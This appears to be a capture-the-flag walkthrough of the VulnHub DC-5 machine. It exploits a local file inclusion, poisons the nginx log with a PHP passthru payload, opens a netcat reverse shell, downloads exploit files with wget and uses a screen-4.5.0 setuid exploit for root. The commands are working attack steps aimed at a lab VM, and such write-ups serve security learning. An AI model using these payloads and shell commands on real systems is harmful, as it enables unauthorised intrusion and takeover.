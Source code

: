 # DC: 5
[VulnHub link](https://www.vulnhub.com/entry/dc-5,314/)  
By DCAU

* As with the first 4 iterations of the DC-series, we are first greeted with a login page that requires users to specify both the username and the password:
![](/screenshots/dc-5/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-5/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.12`.
* The host is running 2 services, HTTP at port 80 and rpcbind at port 111. Both ports are found to be open.
* Run `nmap -p- -A 10.0.2.12`:
![](/screenshots/dc-5/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an nginx web server running on port 80 (which is open), as with the previous iteration of the dc series.
* Opening `http://10.0.2.12` reveals a site with paragraphs of random sample texts greeting us:
![](/screenshots/dc-5/siteWebServer.jpg)
* At this point in time, I could not be more stuck. I tried using Burp Suite on the Contact form as was done in the previous walkthrough for DC-4, but to no avail.
* A hint that I got was that when I repeatedly submitted the Contact form, the copyright year at the bottom may differ:
![](/screenshots/dc-5/copyrightYears.jpg)
* It was either 2017, 2018, 2019 or 2020. Interesting. The copyright year on any of the other pages would be 2019.
* Even when I was repeatedly refreshing `http://10.0.2.12/thankyou.php` which had no parameters, the year was still changing. A contact form that is submitted would result in the URL being `http://10.0.2.12/thankyou.php?firstname=&lastname=&country=australia&subject=`.
* On hindsight, the only indication that I got from looking at the page source, is that the closing HTML tag for footer was rather out of place:
![](/screenshots/dc-5/contactFormSubmitPageSource.jpg)
* While I understood that we could modify the data (within the various options) being sent, what I did not know was that we could attempt our own options as well. Such an option would be `file`, where we would want to read the contents of specific files within the web server. It turns out that this vulnerability is called **Local File Inclusion** (LFI).
* After understanding this, we will now attempt to get the contents of `/etc/passwd`, by entering `http://10.0.2.12/thankyou.php?file=/etc/passwd`:
![](/screenshots/dc-5/etcPasswdFile.jpg)
* Interestingly, if we did not include any file to load in the parameter, the footer contents would disappear, i.e. no Copyright © 2019 would be retrieved.
* Also, `/etc/passwd` seems to be one of the common files used to test for LFI, because I guess virtually everyone would have that file on their web servers. Attempting to load a file that does not exist may lead us to be mistaken that LFI is not present.
* As much as we now know a list of users, we do not have a login page or ssh to attempt our logins.
* It turns out that to get our shell, we would have to exploit it through the *nginx access logs*.
* First, we have to find out where the access logs are located. A common location of the file is `/var/log/nginx/access.log`. Run: `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log`:
![](/screenshots/dc-5/nginxAccessLog.jpg)
* Note: For Apache2 web servers, the location is also likely to be the same, except that it would be found under the `apache2` directory in `/var/log` instead.
* We can now confirm that we are able to retrieve the access logs, which span many, many pages.
* I accessed `http://10.0.2.12/testing-out-that-i-am-able-to-read-the-access-logs`, just to test out what we know about the access logs - that these files record all requests processed by the server:
![](/screenshots/dc-5/nginxAccessLogTest.jpg)
* Note: The latest records are found at the bottom of the log file.
* Next, run `nc 10.0.2.12 80`, then enter `GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1`:
![](/screenshots/dc-5/emptyGETResponse.jpg)
* Note: I did not get back any response from my GET request, as compared to the walkthroughs by others who solved this challenge. They got back a response with status code `400 Bad Request`, where if you were to see the status code of my 'empty' GET request below, it is a `408 Request Timeut` error. Interesting.
* `passthru` allows us to execute an external program and display its raw output.
* Note: The browswer is not used to send this GET request because it will URL-encode the request, making it useless.
* Refresh the page, i.e. visit `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log` and we see that there is an 'empty' GET request, which is really the request made when we executed the PHP code:
![](/screenshots/dc-5/emptyGetRequest.jpg)
* After that, visit `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log&cmd=id` to confirm that we are able to run commands. We should expect to see the output of running `id` in the access logs, exactly at the log entry where our 'empty' GET request was made:
![](/screenshots/dc-5/commandExecutionAccessLogs.jpg)
* Note: Visiting the page with the parameter `cmd=id` immediately after sending the GET request via netcat will result in the output of `id` being displayed as the latest one. I visited a few pages in between for the example above to illustrate my point that the output of the command will only appear exactly where the netcat GET request was made.
![](/screenshots/dc-5/commandExecutionImmediateAccessLogs.jpg)
* Next, we will establish our shell to the web server by running a netcat listener `nc -v -l -p 1234` on our Kali VM terminal, and then visiting `http://10.0.2.12/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 10.0.2.15 1234 -c /bin/sh` on our browser:
![](/screenshots/dc-5/ncEstablishShell.jpg)
* Note: Replace `10.0.2.15` with the IP address of your Kali VM, `1234` with a port number of your choice just for the purpose of establishing this connection, and `/bin/sh` with `/bin/bash` if you would like (there is no difference between the 2 here).
* As expected, we are user `www-data` and it is time to find a way to escalate our privileges!
* Before we do so, run `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn our interactive TTY shell.
* Next, run `find / -user root -perm -4000 -print 2>/dev/null` to search for setuid binaries which we can possibly exploit:
![](/screenshots/dc-5/setuidBinaries.jpg)
* Having executed this `find` command many times over our past challenges, we are more or less able to distinguish if there are any unusual binaries in the output. Here, it is `/bin/screen-4.5.0`.
* Googling about /bin/screen-4.5.0 led me to find out about the existence of 2 exploits relating to it on Exploit DB - [41152](https://www.exploit-db.com/exploits/41152) and [41154](https://www.exploit-db.com/exploits/41154). I could not quite understand the former, so we will use the latter.
* To upload the exploit script, run `python -m SimpleHTTPServer 4567` on our Kali VM, then navigate to `/tmp` on our netcat shell before running `wget http://10.0.2.15:4567/41154.sh`:
![](/screenshots/dc-5/uploadExploitScript.jpg)
* Note: According to [Python For Beginners](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/), the SimpleHTTPServer module that comes with Python is a simple HTTP server that provides standard GET and HEAD request handlers. An advantage with the built-in HTTP server is that we do not have to install and configure anything.
* Note: `4567` is also a port number of your choice just for the purpose of establishing this connection.
* Once it has been downloaded to the web server /tmp directory, `chmod +x 41154.sh` to give it executable permissions.
* Running `./41154.sh` results in an error as shown in the boxed-up area:
![](/screenshots/dc-5/failedScreenExploit.jpg)
* Perhaps the exploit script could not be executed in one shot. Let us try to split the original script into its respective files by ourselves, and do the compilation manually.
* First, we will do a quick analysis of the original exploit script:
![](/screenshots/dc-5/exploitCode.jpg)
* In summary, the original exploit script is split into 3 files - 2 .c files and 1 script.
* We will next compile the 2 respective .c files, bearing in mind that the `/tmp` parts of the command (as indicated in the original exploit script) are removed because my version of files are stored in `/root`.
* Compile `libhax.c` using the command `gcc -fPIC -shared -ldl -o libhax.so libhax.c`:
![](/screenshots/dc-5/libhaxCompilation.jpg)
* Compile `rootshell.c` using the command `gcc -o rootshell rootshell.c`:
![](/screenshots/dc-5/rootshellCompilation.jpg)
* We will name our script `screenroot.sh`, although you can name it otherwise. This name is the file name of the original exploit script.
![](/screenshots/dc-5/screenRootScriptModified.jpg)
* Time to upload all 3 files to the vulnerable web server:
1. `wget http://10.0.2.15:4567/libhax.so`
2. `wget http://10.0.2.15:4567/rootshell`
3. `wget http://10.0.2.15:4567/screenroot.sh`
![](/screenshots/dc-5/uploadExploitFiles.jpg)
* The status code `200 OK` tells us that the upload is successful.
* `chmod +x screenroot.sh` to give it executable permissions:
![](/screenshots/dc-5/filesInTmpDirectory.jpg)
* For some unknown reason, I am unable to run it on one of my devices. Apparently there is a wrong ELF class, which I am unable to diagnose:
![](/screenshots/dc-5/exploitFinalUnknownFailure.jpg)
* What you should rightfully see when you run `./screenroot.sh`:
![](/screenshots/dc-5/privilegeEscalated.jpg)
* Congratulations, we are now `root`! Head to `/root`, and our flag is found in `thisistheflag.txt`:
![](/screenshots/dc-5/flag.jpg)

# Other walkthroughs visited
1. https://bzyo.github.io/dc-5/